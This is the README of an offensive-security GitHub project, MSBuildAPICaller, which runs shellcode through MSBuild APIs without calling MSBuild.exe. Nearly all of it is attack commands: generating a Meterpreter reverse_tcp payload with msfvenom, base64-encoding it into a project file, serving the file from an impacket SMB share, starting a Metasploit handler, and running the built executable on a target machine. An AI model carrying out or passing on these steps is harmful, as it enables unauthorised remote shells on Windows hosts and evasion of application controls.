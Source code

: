 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 0: git clone this repo on your Kali Linux

```
git clone https://github.com/xax007/MSBuildAPICaller
cd MSBuildAPICaller
```

## Step 1: Build IEShim.cs on your Windows Machine
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs
```

## Step 2: Modify `msbuildapicaller.cs` file 

Modify `projectPath` variable on line 60 of `msbuildapicaller.cs` to your needs

Example:   
`string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';`

## Step 3: Generate shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o payload64.bin LHOST=10.0.0.1 LPORT=2000
``` 
convert the shellcode from binary to base64

```
base64 -w 0 -i /root/payload64.bin > payload64.txt
```  

Replace `<Base64 Encoded x64 Shellcode>`  with your base64 encoded x64 shellcode in `msbuildapicaller.csproj` file


## Step 4: Modify `msbuildapicaller.csproj` fille  

Replace `AssemblyFile` variable in msbuildapicaller.csproj file with the location of your compiled dll from step 1

## Step 5: Build `msbuildapicaller.cs` file

```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs
```

## Step 6: Start a SMB Server via impacket

```
impacket-smbserver pentestlab /msbuild -smb2support
```
## Step 7: Start a Metasploit exploit handler
```
$ msfdb run
msf5> handler -p windows/x64/meterpreter/reverse_tcp -P 4444 -H 1.2.3.4
```
## Step 8: Execute 

execute `msbuildapicaller.exe` file complied from `step 5` on target windows machine


reference: [MSBUILD WITHOUT MSBUILD](https://pentestlaboratories.com/2020/01/27/msbuild-without-msbuild/)
